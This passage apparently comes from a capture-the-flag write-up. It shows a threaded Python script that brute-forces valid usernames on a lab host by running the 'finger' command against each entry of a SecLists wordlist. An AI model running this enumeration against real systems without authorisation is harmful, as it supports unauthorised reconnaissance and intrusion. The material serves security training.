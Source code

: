 Maybe this is a bruteforce? A good list of common usernames can be found here:

- https://github.com/danielmiessler/SecLists

Install these wordlists if not already:

```bash
sudo apt install seclists
```

Then write a basic Python script to thread out the attempts to find a valid username using the `finger` program:

- Script was built using trial and error from running the `finger` command manually with some known valid usernames like `root` and other non-common ones
- The script "randomizes" the input wordlist to help speed up finding a match

```python
import random
import subprocess
import multiprocessing
import multiprocessing.dummy

TARGET = '10.10.10.76'
WORDLIST = '/usr/share/seclists/Usernames/Names/names.txt'

def finger(username):
  username = username.strip()
  print(f'[*] trying {username} ...')
  while True:
    p = subprocess.run(f'finger "{username}"@{TARGET}', 
                       stdout=subprocess.PIPE, 
                       stderr=subprocess.PIPE, 
                       shell=True)
    if p.stderr.decode():
      continue
    if '???' not in p.stdout.decode():
      print(f'[!!!] FOUND {username}')
      print(p.stdout.decode())
    break

if __name__ == '__main__':
  usernames = []
  with open(WORDLIST, 'r') as f:
    usernames.extend(f.readlines())
  random.shuffle(usernames)
  print(f'[*] loaded {len(usernames)} usernames ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count()) 
  threads.map(finger, usernames)
  threads.join()
```

Run the above script as follows:

```bash
python3 finger.py
```

